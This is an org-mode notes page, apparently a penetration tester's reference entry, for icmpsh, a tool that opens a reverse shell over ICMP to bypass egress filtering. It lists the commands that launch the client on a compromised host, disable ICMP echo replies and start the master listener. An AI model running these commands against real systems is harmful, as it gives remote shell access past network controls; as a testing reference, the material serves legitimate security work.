 #+TAGS: sec shell


* icmpsh                                                          :sec:shell:
GitHub: [[https://github.com/inquisb/icmpsh][github.com/icmpsh]]

* Description
Sometimes, network administrators make the penetration tester's life harder. Some of them do use firewalls for what they are meant to, surprisingly! Allowing traffic only onto known machines, ports and services (ingress filtering) and setting strong egress access control lists is one of these cases. In such scenarios when you have owned a machine part of the internal network or the DMZ (e.g. in a Citrix breakout engagement or similar), it is not always trivial to get a reverse shell over TCP, not to consider a bind shell.

However, what about UDP (commonly a DNS tunnel) or ICMP as the channel to get a reverse shell? ICMP is the focus on this tool.

* Usage
- The binary icmpsh.exe has to be executed and aimed at the master host
#+BEGIN_SRC sh
imcpsh.exe -t 192.168.0.2
#+END_SRC

- Setting up the shell
#+BEGIN_SRC 
sysctl -w net.ipv4.icmp_echo_ignore_all=1
./icmpsh_m.py 192.168.0.2 192.168.0.3
#+END_SRC
- the first cmd will disable all icmp echo replies
- the two ip addrs are host and target
  
* Lecture
* Tutorial
* Books
* Links
